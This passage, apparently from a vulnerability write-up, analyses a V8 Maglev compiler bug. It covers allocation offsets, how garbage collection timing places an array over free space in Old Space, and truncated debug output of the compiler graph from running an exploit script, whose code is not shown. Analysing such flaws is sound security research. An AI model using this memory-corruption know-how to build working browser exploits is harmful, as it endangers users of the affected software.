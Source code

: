 From this, we can observe that the allocation of array `a` is always placed at an address 20 bytes higher than the `this` object.  

Next, we will trigger garbage collection between the allocations of the `this` object and array `a`. Although `a` should be allocated in the Young Space, it gets placed under the `this` object in the Old Space due to garbage collection. This code causes the array `a` to overwrite the free space, which then gets detected and triggers a fatal error.

```jsx
//add option --print-maglev-graph : ./debug/d8 --allow-natives-syntax --print-maglev-graph ./code/exploit.js

[truncated]
[1]
       5 : Construct r0, r0-r0, [0]
               ↱ eager @5 (8 live vars)
        44/11: CheckValue(0x03a40011c4f5 <JSFunction ClassParent (sfi = 0x3a40011b095)>) [v41/n8:[rdx|R|t]]
        45/15: AllocateRaw(Young, 20) → [rdi|R|t], live range: [45-50]
        46/16: StoreMap(0x03a4001222fd <Map[20](HOLEY_ELEMENTS)>) [v45/n15:[rdi|R|t]]
          152: ConstantGapMove(v14/n14 → [rax|R|t])
        47/17: StoreTaggedFieldNoWriteBarrier(0x4) [v45/n15:[rdi|R|t], v14/n14:[rax|R|t]]
        48/18: StoreTaggedFieldNoWriteBarrier(0x8) [v45/n15:[rdi|R|t], v14/n14:[rax|R|t]]
          153: ConstantGapMove(v11/n13 → [rcx|R|t])
        49/19: StoreTaggedFieldNoWriteBarrier(0xc) [v45/n15:[rdi|R|t], v11/n13:[rcx|R|t]]
        50/20: StoreTaggedFieldNoWriteBarrier(0x10) [v45/n15:[rdi|R|t], v11/n13:[rcx|R|t]]
[truncated]
[2]
      11 : CreateArrayLiteral [0], [2], #37
        52/24: AllocateRaw(Young, 56) → [rdi|R|t], live range: [52-67]
        53/25: StoreMap(0x03a400000565 <Map(FIXED_ARRAY_TYPE)>) [v52/n24:[rdi|R|t]]
          154: ConstantGapMove(v24/n26 → [rbx|R|t])
        54/27: StoreTaggedFieldNoWriteBarrier(0x4) [v52/n24:[rdi|R|t], v24/n26:[rbx|R|t]]
          155: ConstantGapMove(v16/n23 → [r11|R|t])
[truncated]
        63/36: FoldedAllocation(+40) [v52/n24:[rdi|R|t]] → [rsi|R|t] (spilled: [stack:1|t]), live range: [63-137]
          156: GapMove([rdi|R|t] → [r8|R|t])
          157: GapMove([rsi|R|t] → [rdi|R|t])
        64/37: StoreMap(0x03a40010eea5 <Map[16](PACKED_ELEMENTS)>) [v63/n36:[rdi|R|t]]
        65/38: StoreTaggedFieldNoWriteBarrier(0x4) [v63/n36:[rsi|R|t], v14/n14:[rax|R|t]]
[truncated]
[3]
    108 : FindNonDefaultConstructorOrConstruct <closure>, r0, r8-r9
       100/90: AllocateRaw(Young, 52) → [rdi|R|t] (spilled: [stack:3|t]), live range: [100-145]
       101/91: StoreMap(0x03a4001222fd <Map[20](HOLEY_ELEMENTS)>) [v100/n90:[rdi|R|t]]
       102/92: StoreTaggedFieldNoWriteBarrier(0x4) [v100/n90:[rdi|R|t], v14/n14:[rax|R|t]]
[truncated]
      127/129: FoldedAllocation(+20) [v100/n90:[rdi|R|t]] → [rcx|R|t], live range: [127-135]
          195: GapMove([rcx|R|t] → [rdi|R|t])
      128/130: StoreMap(0x03a400000829 <Map(FIXED_DOUBLE_ARRAY_TYPE)>) [v127/n129:[rdi|R|t]]
          196: ConstantGapMove(v17/n47 → [rdx|R|t])
      129/131: StoreTaggedFieldNoWriteBarrier(0x4) [v127/n129:[rcx|R|t], v17/n47:[rdx|R|t]]
          197: ConstantGapMove(v36/n132 → [xmm0|R|f64])
      130/133: StoreFloat64(0x8) [v127/n129:[rcx|R|t], v36/n132:[xmm0|R|f64]]
          198: GapMove([stack:3|t] → [rbx|R|t])
      131/134: FoldedAllocation(+36) [v100/n90:[rbx|R|t]] → [r8|R|t], live range: [131-139]
          199: GapMove([r8|R|t] → [rdi|R|t])
      132/135: StoreMap(0x03a40010ee25 <Map[16](PACKED_DOUBLE_ELEMENTS)>) [v131/n134:[rdi|R|t]]
```
